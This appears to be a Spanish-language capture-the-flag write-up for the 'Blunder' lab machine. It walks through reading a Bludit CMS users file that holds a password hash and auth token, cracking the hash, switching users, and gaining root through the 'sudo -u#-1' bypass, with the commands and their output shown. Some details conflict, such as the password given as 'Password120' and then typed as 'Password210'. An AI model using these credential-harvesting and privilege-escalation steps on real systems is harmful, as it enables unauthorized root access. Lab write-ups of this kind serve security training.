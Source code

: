 # Escalada de Privilegios y busqueda de la flag User.txt

Enumeramos el sistema:
Encontramos dos usuarios `hugo` y `shaun`
`$ find \ -name user.txt 2>/dev/null` y nos devuelve que el archivo se encuentra en el directorio de HUGO al cual no tenemos acceso
Ya sabemos que tenemos que convertirnos en el usuario HUGO
`$ grep -r -i "hugo" 2>/dev/null` y en los dos primeros matches, encontramos dos archivos que hacen referencia a database, nos movemos a la ruta
listamos los ficheros curiosos y efectivamente:
``` bash
 $"www-data@blunder:/var/www/bludit-3.10.0a/bl-content/databases$ cat users.php" 
<?php defined('BLUDIT') or die('Bludit CMS.'); ?>
{
    "admin": {
        "nickname": "Hugo",
        "firstName": "Hugo",
        "lastName": "",
        "role": "User",
        "password": "faca404fd5c0a31cf1897b823c695c85cffeb98d",
        "email": "",
        "registered": "2019-11-27 07:40:55",
        "tokenRemember": "",
        "tokenAuth": "b380cb62057e9da47afce66b4615107d",
        "tokenAuthTTL": "2009-03-15 14:00",
        "twitter": "",
        "facebook": "",
        "instagram": "",
        "codepen": "",
        "linkedin": "",
        "github": "",
        "gitlab": ""}

"Password": "Password120"			contraseña crackeada con Crackstation
```
Ya podemos hacer un `su hugo` introducimos la password `Password210`

# Conseguir el Privesc para el usuario Root

Encontramos que haciendo el siguiente comando para listar la version de sudo

Listando las versions de SUDO con el commando `apt list | grep “sudo”`
vemos la version de SUDO instalada 1.8.5

Buscamos por `Searchsploit` y resulta que hay para esa version una vulnerabilidad que salio hace poco llamada Security Bypass
```bash
"sudo 1.8.27 - Security Bypass                                                          linux/local/47502.py	"                                                                                    
```
Haciendo:  `$ sudo -u#-1 /bin/bash`  
```bash
hugo@blunder:~$ sudo -u#-1 /bin/bash
root@blunder:/home/hugo# 
```
Lo conseguimos ya somos `root` y ya podriamos listar la flag `root.txt` en la ruta `/root/root.txt`
